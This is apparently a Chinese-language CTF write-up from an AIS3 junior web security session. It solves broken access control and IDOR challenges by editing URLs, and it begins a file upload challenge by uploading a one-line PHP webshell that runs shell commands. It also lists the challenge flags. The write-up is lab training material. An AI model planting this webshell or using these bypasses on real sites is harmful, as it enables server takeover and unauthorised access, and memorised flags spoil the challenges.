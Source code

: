 ```yaml
---
title: AIS3 junior DAY2 上午 網頁安全
date: 2024-08-18 14:01:40
tags: writeup
categories: 2024 AIS3 junior
---
```


## 01 - Broken Access Control

### BAC01

隨便打一個名子login
查看url http://ctfd-ais3.crazyfirelee.tw:9001/user
將`user`改成`admin`
![image](https://hackmd.io/_uploads/B1X-5r3cA.png)
>AIS3_Junior{FirstBROKENAccessControl;)}

### BAC02

到`Product List`裡面觀察每個 `View Details`的 url 發現後面都有編號且唯獨少了4
將4打上去url試試看 http://ctfd-ais3.crazyfirelee.tw:9002/product/4
![image](https://hackmd.io/_uploads/HkwJiB39R.png)
點`buy`進去拿到flag
![image](https://hackmd.io/_uploads/Hk-fsS29R.png)
>AIS3_Junior{BroJustFoundBabyIDORVulnerability}

### BAC03
先用第一題的方法試試看 將url後面改成`admin`
![image](https://hackmd.io/_uploads/BJaS9L25C.png)
沒有辦法得到flag
換另一種方法 用linux的`curl`試試看
```
curl http://ctfd-ais3.crazyfirelee.tw:9003/admin
```
![image](https://hackmd.io/_uploads/SyWzoU35R.png)
>AIS3_Junior{BabyBRokenAccEssControoooooool}

## 02 - File Upload

### FIL01
先寫一個webshell
```php
<?php system($_GET['cmd']);?>
```
檔名用`.php`結尾
將webshell上傳
![image](https://hackmd.io/_uploads/rk0KOShqA.png)
